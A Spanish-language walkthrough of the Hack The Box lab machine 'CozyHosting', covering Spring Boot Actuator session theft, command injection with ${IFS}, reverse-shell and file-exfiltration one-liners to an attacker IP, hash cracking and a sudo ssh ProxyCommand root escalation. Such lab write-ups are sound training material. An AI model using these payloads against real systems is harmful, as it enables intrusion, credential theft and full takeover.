

# CozyHosting

`CozyHosting` es una máquina Linux de nivel de dificultad fácil que cuenta con una aplicación `Spring Boot`. La aplicación tiene habilitado el punto final `Actuator`. Enumerar el punto final conduce al descubrimiento de la cookie de sesión de un usuario, lo que lleva al acceso autenticado al panel principal. La aplicación es vulnerable a la inyección de comandos, que se aprovecha para obtener un shell inverso en la máquina remota. Al enumerar el archivo `JAR` de la aplicación, se descubren las credenciales codificadas y se utilizan para iniciar sesión en la base de datos local. La base de datos contiene una contraseña en hash, que una vez descifrada se utiliza para iniciar sesión en la máquina como el usuario `josh`. El usuario puede ejecutar `ssh` como `root`, lo que se aprovecha para aumentar por completo los privilegios.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **CozyHosting**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.230 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 05:53 CET
Initiating SYN Stealth Scan at 05:53
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Completed SYN Stealth Scan at 05:54, 12.79s elapsed (65535 total ports)
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.038s latency).
Scanned at 2025-02-05 05:53:52 CET for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65547 (2.623MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.230
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentra expuesta una página web de **Nginx** y el servicio SSH.

```bash
❯ nmap -sCV -p22,80 10.10.11.230 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 05:55 CET
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   96.66 ms 10.10.16.1
2   33.37 ms cozyhosting.htb (10.10.11.230)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
```

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada.

```bash
❯ catnp /etc/hosts | grep 10.10.11.230
10.10.11.230 cozyhosting.htb
```

## Web Enumeration

Al acceder a[ http://cozyhosting.htb](http://cozyhosting.htb), verificamos que se trata de una página en la cual a simple vista no logramos ver más páginas ni ningún tipo de información relevante.

<figure><figcaption></figcaption></figure>

Al realizar una enumeración de directorios y páginas, nos encontramos con el siguiente resultado.

```bash
❯ dirsearch -u 'http://cozyhosting.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/CozyHosting/CozyHosting/reports/http_cozyhosting.htb/_25-02-05_06-20-38.txt

Target: http://cozyhosting.htb/

[06:20:38] Starting: 
[06:20:48] 200 -    0B  - /;/login
[06:20:48] 200 -    0B  - /;/json
[06:20:48] 200 -    0B  - /;admin/
[06:20:48] 200 -    0B  - /;/admin
[06:20:48] 200 -    0B  - /;json/
[06:20:48] 200 -    0B  - /;login/
[06:20:48] 200 -    0B  - /error/
[06:20:50] 200 -    0B  - /actuator/;/configurationMetadata
[06:20:50] 200 -    0B  - /actuator/;/caches
[06:20:50] 200 -    0B  - /actuator/;/beans
[06:20:50] 200 -    0B  - /actuator/;/auditevents
[06:20:50] 200 -    0B  - /actuator/;/env
[06:20:50] 200 -    0B  - /actuator/;/events
[06:20:50] 200 -    0B  - /actuator/;/conditions
[06:20:50] 200 -    0B  - /actuator/;/dump
[06:20:50] 200 -    0B  - /actuator/;/configprops
[06:20:50] 200 -    0B  - /actuator/;/features
[06:20:50] 200 -  634B  - /actuator
```

Al intentar acceder a  [http://cozyhosting.htb/error](http://cozyhosting.htb/error), verificamos que nos aparece un mensaje de error peculiar.

<figure><figcaption></figcaption></figure>

Al buscar este mensaje de error por Internet, nos indica que se trata de `Spring Boot`. Por lo que podemos deducir que la página está basada en ese framework.


Spring Boot es un framework desarrollado para el trabajo con Java como lenguaje de programación. Se trata de un entorno de desarrollo de código abierto y gratuito. Spring Boot cuenta con una serie de características que han incrementado su popularidad y, en consecuencia, su uso por parte de los desarrolladores back-end.&#x20;


<figure><figcaption></figcaption></figure>

### Information Leakage

Al verificar el siguiente sitio web [http://cozyhosting.htb/actuator](http://cozyhosting.htb/actuator), nos encontramos con diferentes endpoints.


Spring Boot Actuator es un módulo que proporciona endpoints listos para monitorear, administrar y diagnosticar aplicaciones Spring Boot en tiempo de ejecución. Es especialmente útil para DevOps y monitoreo en producción.


```bash
❯ curl -s -X GET 'http://cozyhosting.htb/actuator' | jq
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```

Revisando el contenido de[ http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions), verificamos que nos aparece lo que parece ser una cookie de sesión del usuario `kanderson`.

```bash
❯ curl -s -X GET 'http://cozyhosting.htb/actuator/sessions' | jq
{
  "8164A98A711A5C909D57A3CCD56E9DD4": "kanderson",
}
```

Buscando nuveamente directorios, nos encontramos con los directorios `admin` y `login`.

```bash
❯ gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,503
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
```

Al tratar de acceder a [http://cozyhosting.htb/admin](http://cozyhosting.htb/admin) somos redirigidos a `login`.

<figure><figcaption></figcaption></figure>

Modificaremos nuestra cookie de sesión actual para indicar la que hemos encontrado del usuario `kanderson`. Probaremos de acceder nuevamente a [http://cozyhosting.htb/admin](http://cozyhosting.htb/admin)

<figure><figcaption></figcaption></figure>

Verificamos que logramos acceder a un panel de administración que ofrece unos gráficos administrativos y un apartado para añadir hosts para analizarlos en el panel.

<figure><figcaption></figcaption></figure>

## Initial Foothold

### Command Injection on web panel

Interceptamos la petición con `BurpSuite` para verificar cómo funciona ese campo al añadir un nuevo host.

En la primera prueba realizada se indicaron los datos de nuestro equipo, por parte del servidor nos devolvió error de `timed out`.

<figure><figcaption></figcaption></figure>

Tratamos de ingresar `localhost` como host, pero se nos indicaba que había fallado la verificación de la clave. Esto nos hace pensar que por detrás probablemente el servidor lo que esté ejecutando es `ssh -i [key] [username]@[hostname]` para tratar de conectarse, por lo cual podríamos verificar si existen vulnerabilidades de inyección de comandos.

<figure><figcaption></figcaption></figure>

Probamos de inyectar código para ver si era vulnerable a `Command Injection`, pero el campo `host` parece ser que no era vulnerable.

<figure><figcaption></figcaption></figure>

Probamos de inyectar código en el campo de `username` y nos devolvió otro error distinto también.

<figure><figcaption></figcaption></figure>

Probamos de inyectar el comando `-h` y en la respuesta por parte del servidor, acabamos de confirmar por completo que lo que se está ejecutando por detrás por parte del servidor es el comando `ssh` mencionado anteriormente.

<figure><figcaption></figcaption></figure>

Tratamos de inyectar un comando con espacios, y se nos indica en la respuesta del servidor que no puede contener `whitespaces`.

<figure><figcaption></figcaption></figure>

Debido que no podemos utilizar espacios en blanco, podemos intentar utilizar `${IFS}` como variable de entorno de Bash que se trata de un espacio.

La estructura de comando que ejecutará el servidor es la siguiente.

```bash
ssh -i [key] gzzcoo;wget${IFS}10.10.14.6/test@localhost
```

Para verificar si podemos ejecutar el comando, nos levantamos un servidor web con Python e inyectamos el código con el espacio a través de la variable indicada, verificamos que parece que se ha ejecutado debido que en nuestro servidor web hemos recibido una petición por `GET`.

```bash
gzzcoo;wget${IFS}10.10.16.2/test
```

<figure><figcaption></figcaption></figure>

Para tratar de conseguir una Reverse Shell, nos creamos un script en nuestro equipo para que la víctima ejecute el script a través del servidor web que levantamos para compartir este script.

Desde BurpSuite, enviaremos la siguiente inyección que lo que realizará es un `cURL` de nuestro script y lo ejecutará con una `bash`. Verificamos que logramos obtener acceso al equipo.

```bash
#!/bin/bash

/bin/bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"
```

```bash
gzzcoo;curl${IFS}http://10.10.16.2/rev.sh${IFS}|bash;#
```

<figure><figcaption></figcaption></figure>

Otra de las maneras que nos encontramos, es a través de codificar el comando en base64.

En este caso, en un archivo llamado `shell` guardamos el contenido de la típica Reverse Shell, revisamos como sería el código codificado, en este caso nos mostraba carácteres como `==`, lo cual posiblemente nos entraría en conflicto al no tratarse de un carácter común.

Por lo tanto, volvemos a editar el archivo añadiendo espacios en blanco en el comando, al verificar nuveamente el código en base64, verificamos que es una cadena de texto simple.

```bash
❯ cat shell
bash -i >& /dev/tcp/10.10.16.2/443 0>&1
❯ cat shell | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxCg==
❯ nvim shell
❯ cat shell | base64
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxICAK
```

Desde `BurpSuite`, ejecutaremos la siguiente inyección, la cual ejecutará este comando en Base64, lo descodificará y el comando descodificado lo ejecutará a través de una **bash**.

Verificamos que logramos obtener acceso al equipo.

```bash
gzzcoo;{echo,-n,YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxICAK}|{base64,-d}|bash;#
```

<figure><figcaption></figcaption></figure>

## Initial Access

### Analyzing a  jar file (JADX-GUI)

Nos encontramos en el equipo como el usuario `app`. Verificamos los usuarios que disponen de `bash`y de los grupos a los cuales formamos parte. Al revisar los archivos que disponemos en el directori actual, nos encontramos con un archivo `.jar`.

```bash
app@cozyhosting:/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash

app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)

app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Nos pondremos en escucha desde nuestra máquina atacante para recibir este archivo. Desde la máquina víctima, enviaremos el contenido a través del `/dev/tcp`.

```bash
❯ nc -nlvp 443 > cloudhosting-0.0.1.jar
listening on [any] 443 ...
```

```bash
app@cozyhosting:/app$ cat cloudhosting-0.0.1.jar > /dev/tcp/10.10.16.2/443
```

Abriremos este nuevo archivo `JAR` a través de la herramienta de `JADX-GUI` en busca de información sensible en el código fuente.

Recordando que la página web utilizaba el framework de `Spring Boot`, intentamos buscar por Internet información sobre ficheros `JAR` de `Spring Boot` y nos encontramos sobre `application.properties` que debería contener información interesante.



Al analizar el binario, logramos visualizar credenciales de acceso a PostgreSQL.

<figure><figcaption></figcaption></figure>

### Database Enumeration

Revisamos en la máquina víctima los puertos abiertos, y verificamos que el puerto de `PostgreSQL` se encontraba abierto internamente.

```bash
app@cozyhosting:/$ netstat -ano | grep LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      off (0.00/0/0)
app@cozyhosting:/$ which psql
/usr/bin/psql
```

Accedeeremos al SQL a través de las credenciales obtenidas. Verificamos de la existencia de diferentes bases de datos, las cuales parece llamarnos más la atención la de `cozyhosting`.

Revisaremos las tablas de la base de datos mencionada, entre las tablas encontradas nos encontramos con una tabla `users` que disponía de usuarios y credenciales en formato hash.

```sql
app@cozyhosting:/$ psql -h localhost -p 5432 -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \list
                                                                      List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# \connect cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

Trataremos de crackear estos hashes obtenidos, verificamos que logramos obtener las credenciales en texto plano del usuario llamado `admin`.

```bash
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

...[snip]...

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Dado que únicamente `josh` era el usuario que disponía de bash, probamos de acceder con él para ver si esta contraseña se reutilizaba en este usuario. Logramos pivotar de usuario y verificar la flag de **user.txt**.

```bash
app@cozyhosting:/$ su josh
Password: 
josh@cozyhosting:/$ cd /home/josh
josh@cozyhosting:~$ cat user.txt 
ef4f1dc1330f********************
```

## Privilege Escalation

### Abusing sudoers privilege (ssh)

Revisando los permisos de `sudoers` que dispone el usuario `josh`, verificamos que puede ejecutar como `root` el binario de `/usr/bin/ssh`.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

En `GTFOBins` nos encontramos con la siguiente página la cual nos menciona como aprovecharnos de este permiso enel binario de `ssh`. Ejecutamos el comando que se nos menciona, verificamos que nos convertimos en usuario`root` y logramos visualizar la flag de **root.txt**.



```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
2dfc37e4837************************
```
